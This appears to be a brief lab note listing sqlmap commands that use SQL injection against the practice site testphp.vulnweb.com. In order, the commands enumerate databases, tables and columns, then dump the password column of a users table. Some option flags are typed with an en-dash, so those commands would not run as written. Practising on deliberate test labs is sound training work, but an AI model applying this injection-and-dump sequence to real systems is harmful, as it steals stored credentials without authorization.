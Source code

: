 # commandos

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 –dbs

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –tables

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart –columns

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass –dump 


Lab: http://testphp.vulnweb.com/userinfo.php
